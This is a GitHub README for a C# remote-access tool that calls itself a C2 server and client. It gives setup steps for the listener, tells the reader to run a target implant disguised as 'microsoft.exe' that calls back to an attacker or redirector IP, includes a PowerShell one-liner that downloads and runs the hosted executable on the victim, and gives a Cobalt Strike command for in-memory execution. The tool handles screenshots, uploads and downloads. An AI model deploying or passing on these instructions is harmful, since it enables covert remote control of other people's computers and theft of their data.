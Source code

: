 # Remote Process Tool
[![build succeeded](https://img.shields.io/badge/build-succeeded-brightgreen.svg)](https://github.com/its-mr-monday/.NET-Remote-Process-Tool/releases/tag/1.0.0)

	Remote Process Tool is a C# .Net Core Server and .Net Framework Client
	The tool can be staged to be run in targets memory
	The tool can also be executed through a Cobalt Strike beacon

# C2 Server Setup
# Linux Server Guide

	- Linux server ELF is found in Server/linux-x64/publish/DLServer

	- Inside the ELF folder create 3 directories called "screenshots", "uploads", "downloads"

	- chmod DLServer and run it by calling ./DLServer [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Windows Server Guide

	- Windows server EXE is found in Server\win-x64\publish\DLServer.exe

	- Inside the EXE folder create 3 directories called "screenshots", "uploads", "downloads"

	- This can be run by calling .\DLServer.exe [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Target Execution Guide

	- The target EXE is found in the "WinBinary" directory labelled as "microsoft.exe"

	- If you are using a redirector run the command ".\microsoft.exe [redirector_ip] [redirector_port]"

	- If you are doing a straight callback to your server run the command ".\microsoft.exe [your_ip] [your_port]" *Note this is not recommended*


# Attacker Execution Guide (No Cobalt)

	- Setup your redirector to listen and forward to your DLServer

	- Host the windows executable on a HTTP server

	- Run the following command on the client to download and execute:
		"Invoke-WebRequest "hosted_exe" -OutFile microsoft.exe;.\microsoft.exe [server/redirector ip] [server/redirector port]"

# Cobalt Beacon Guide

	- Once you have a beacon you may execute the following Cobalt command to run the executable in memory:
		"execute-assembly [location_to_exe] [server/redirector ip] [server/redirector port]" 	
